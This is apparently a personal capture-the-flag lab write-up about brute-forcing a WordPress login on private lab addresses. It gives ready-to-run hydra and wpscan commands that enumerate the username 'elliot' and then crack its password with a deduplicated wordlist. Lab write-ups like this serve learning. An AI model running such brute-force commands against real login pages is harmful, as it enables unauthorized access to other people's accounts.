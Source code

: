 The file contains a LOT of lines in random order - let's make that a little more clean. Sort the value and keep only the
unique values `sort fsocity.txt | uniq > unique.txt`. Now if we use this file we don't be trying the same values
multiple times. Which will save a LOT of time - the deduplicated files is nearly 75x smaller than the original 

# Cracking with Hydra

Had to learn how to use Hydra. See [Hydra](Hydra.md) to see what I learned. 

Making an actual call: 

```
    hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.127.253 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect." -V -t 4
```

Okay, that's not what I actually used. What I actually used was

```bash
    hydra -L fsocity.dic -p test 10.10.42.161 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.42.161%2Fwp-admin%2F&testcookie=1:F=Invalid usernam" -t 4 | tee 05_hyra_bf.log
```

NOTE - username: elliot

Now to break the password for elliot. 

```bash
    hydra -l elliot  -P ./unique.txt 10.10.42.161 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.42.161%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -t 4 | tee 06_hyra_bf_pass.log
```

Okay, that didn't work for some reason. It would go for a while and then stop working. So we are going to try `wpscan`
instead

So, we are going to use wpscan

```bash
    wpscan --url http://192.168.0.18 --passwords /location/of/wordlist/fsocitysortunique.dic --usernames elliot
```

I couldn't figure this out so I went ahead just did a scan without the wordlist or username. UPDATE - I figured it out.
The flags have changes from V2 to V3. This has been updated in the command above.

username ==> usernames
wordlist ==> passwords

This was STUPId fast - 32 seconds instead of the many hours it was going to take with hydra. Unsure why Hydra took so
long and wpscan didn't. I'm guessing wpscan is doing something fancy under thet hood
